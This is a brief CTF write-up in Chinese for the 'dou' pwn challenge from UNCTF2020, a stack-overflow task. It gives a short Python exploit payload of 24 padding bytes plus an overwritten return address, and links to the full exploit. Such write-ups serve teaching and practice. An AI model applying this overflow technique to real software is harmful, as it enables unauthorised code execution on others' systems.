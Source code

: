 
## dou
- 题目描述：
- 题目附件：[dou](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/unctf2020/pwn/dou/dou)
- 考察点：栈溢出
- 难度：签到

### 程序分析
和上一题一样，不知道为啥出俩

### 解题思路
``` python
sh = 0x4006CD

offset = 24
payload = 'A'*offset
payload += p64(sh)

sl(payload)
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/unctf2020/pwn/dou) 

